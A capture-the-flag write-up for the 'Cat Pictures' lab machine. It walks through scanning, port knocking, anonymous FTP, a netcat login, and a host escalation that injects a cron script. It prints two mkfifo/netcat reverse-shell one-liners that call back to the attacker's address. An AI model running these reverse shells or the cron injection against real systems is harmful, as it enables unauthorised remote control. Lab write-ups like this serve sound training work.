

Cat Pictures - Write Up

Table of Contents
| Link | Level | Creator |
|---|---|---|
| Here | Easy | gamercat |
Reconn
Using nmap we detect 3 ports 21 running FTP "filtered", 21 running SSH "open", 8080 running a web.
└──╼ $map 10.10.51.194
[sudo] password for lanfran:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 16:21 CEST
Nmap scan report for 10.10.51.194
Host is up (0.088s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
21/tcp filtered ftp
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
| 256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_ 256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp filtered http-proxy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.65 seconds
Searching in the 8080 port, we find a post, saying: Knock knock! Magic numbers: 1111, 2222, 3333, 4444
So we knock on that ports [Maybe you need to run the command 2-3 times to work :)]
knock 10.10.51.194 1111 2222 3333 4444
Running nmap again, we can see that now the FTP port it’s open, and accepts the Anonymous user!
└──╼ $map 10.10.153.159
[sudo] password for lanfran:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 17:04 CEST
Nmap scan report for 10.10.153.159
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r-- 1 ftp ftp 162 Apr 02 14:32 note.txt
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.9.3.250
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 3
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
| 256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_ 256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open http Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.13 seconds
So let’s login to the FTP and see what’s inside.
╰─ lanfran@parrot ❯ ftp 10.10.51.194 ─╯
Connected to 10.10.51.194.
220 (vsFTPd 3.0.3)
Name (10.10.51.194:lanfran): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x 2 ftp ftp 4096 Apr 02 14:32 .
drwxr-xr-x 2 ftp ftp 4096 Apr 02 14:32 ..
-rw-r--r-- 1 ftp ftp 162 Apr 02 14:32 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (162 bytes).
226 Transfer complete.
162 bytes received in 0.00 secs (53.0171 kB/s)
ftp>
Reading the note, we get a new port, and the username:passord to login!
Foothold - Flag 1
Unluckily it’s not the SSH port, it’s an “internal shell service”…
Let’s use netcat to login
╰─ lanfran@parrot ❯ nc 10.10.51.194 4420 ─╯
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
sardinethecat
Password accepted
ls -la
total 56
drwxr-xr-x 10 1001 1001 4096 Apr 3 01:30 .
drwxr-xr-x 10 1001 1001 4096 Apr 3 01:30 ..
-rw------- 1 1001 1001 50 Apr 1 20:23 .bash_history
-rw-r--r-- 1 1001 1001 220 Apr 1 20:21 .bash_logout
-rw-r--r-- 1 1001 1001 3771 Apr 1 20:21 .bashrc
-rw-r--r-- 1 1001 1001 807 Apr 1 20:21 .profile
drwxrwxr-x 2 1001 1001 4096 Apr 2 23:05 bin
drwxr-xr-x 2 0 0 4096 Apr 1 20:32 etc
drwxr-xr-x 3 0 0 4096 Apr 2 20:51 home
drwxr-xr-x 3 0 0 4096 Apr 2 22:53 lib
drwxr-xr-x 2 0 0 4096 Apr 1 20:28 lib64
drwxr-xr-x 2 0 0 4096 Apr 2 20:56 opt
drwxr-xr-x 2 0 0 4096 Apr 3 01:35 tmp
drwxr-xr-x 4 0 0 4096 Apr 2 22:43 usr
We now have to get a reverse shell, I usde the mkfifo shell, you can use other one! I recommend you to use revshells.com to generate the commands for reverse shells. It’s created and mantained by the CTF’s community!
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.6.21 1337 >/tmp/f

Going through the directories, we find a binary in /home/catlover named “runme”. I downloaded it to my local machine, and used strings to get the password.
╰─ lanfran@parrot ❯ strings runme ─╯
/lib64/ld-linux-x86-64.so.2
[...]
r[REDACTED]a
Please enter yout password:
Welcome, catlover! SSH key transfer queued!
touch /tmp/gibmethesshkey
Access Denied
[...]
Great! We can now run the binary in the machine, and input the password!
# ./runme
Please enter yout password: [REDACTED]
Welcome, catlover! SSH key transfer queued!
# ls -la
total 32
drwxr-xr-x 2 0 0 4096 Jul 4 11:17 .
drwxr-xr-x 3 0 0 4096 Apr 2 20:51 ..
-rw-r--r-- 1 0 0 1675 Jul 4 11:17 id_rsa
-rwxr-xr-x 1 0 0 18856 Apr 3 01:35 runme
I copied the id_rsa file to my local machine, and used it to SSH in.
╰─ lanfran@parrot ❯ ssh catlover@10.10.51.194 -i id_rsa ─╯
[...]
root@7546fa2336d6:/# cd /root
root@7546fa2336d6:/root# ls -la
total 24
drwx------ 1 root root 4096 Mar 25 16:28 .
drwxr-xr-x 1 root root 4096 Mar 25 16:18 ..
-rw-r--r-- 1 root root 570 Jan 31 2010 .bashrc
drwxr-xr-x 3 root root 4096 Mar 25 16:26 .local
-rw-r--r-- 1 root root 148 Aug 17 2015 .profile
-rw-r--r-- 1 root root 41 Mar 25 16:28 flag.txt
root@7546fa2336d6:/root# cat flag.txt
7[REDACTED]9
Flag 2 - Root
Great, we have the first flag!
We are now the root user of a docker container, so we need to escalate to the root user of the host.
Going through the files and reading the crontab, we find a cron script running inside the host machine!
Add a reverse shell to it, and get a root rev shell to the host!!!
root@7546fa2336d6:/root# cat /opt/clean/clean.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.6.21 9999 >/tmp/f
After some seconds, we get a rev shell!
Get the Flag 2.
╰─ lanfran@parrot ❯ nc -nlvp 9999 ─╯
listening on [any] 9999 ...
connect to [10.9.6.21] from (UNKNOWN) [10.10.51.194] 57996
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cat /root/root.txt
Congrats!!!
Here is your flag:
[REDACTED]
And we rooted the machine!
That’s all from my side, hope you find this helpful!